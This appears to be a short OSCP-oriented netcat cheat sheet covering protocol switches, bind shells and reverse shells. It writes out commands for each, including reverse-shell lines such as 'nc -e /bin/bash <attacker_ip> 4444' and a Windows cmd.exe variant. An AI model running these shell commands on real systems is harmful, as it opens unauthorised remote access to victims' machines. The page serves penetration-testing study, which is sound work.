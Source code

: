 {% hint style="info" %}
The netcat tool supports some protocols, but it works mainly on the TCP protocol. If you want to choose a different protocol, you must specify the type of protocol through switches.
{% endhint %}

`-t` (TCP)  -> To use TCP instead of the default.

`-u` (UDP) -> To Use UDP Protocol

> There are some other protocols, such as RAW and others, and I will leave it to you to search for that

\--

### Bind shell

`nc -nvlp 4444 -e /bin/bash` ⇒ on the victim machine

`nc -nv 10.0.2.10 4444` ⇒ on attacker machine to connect with the victim machine

—

## Reverse Shell

`nc -nvlp 4444` ⇒ on attacker machine

`nc -nv 10.0.2.9 4444` -e /bin/bash ⇒ on victim machine

`netcat` is a powerful tool often used in the OSCP (Offensive Security Certified Professional) exam for various purposes, such as setting up reverse shells, file transfers, port scanning, and even setting up a simple web server. Here are some common `netcat` use cases that are particularly relevant for the OSCP:

### 1. Reverse Shells

A reverse shell is a shell session initiated by the target machine to the attacker's machine. This is often used to bypass firewalls and NAT.

**On the Attacker's Machine (Listening):**

```sh
nc -lvnp 4444
```

**On the Target Machine (Connecting Back):**

```sh
nc -e /bin/bash <attacker_ip> 4444
```

For Windows targets:

```sh
nc.exe -e cmd.exe <attacker_ip> 4444
```

### 2. Bind Shells

A bind shell is a shell session where the target machine opens a listening port and waits for an attacker to connect to it.
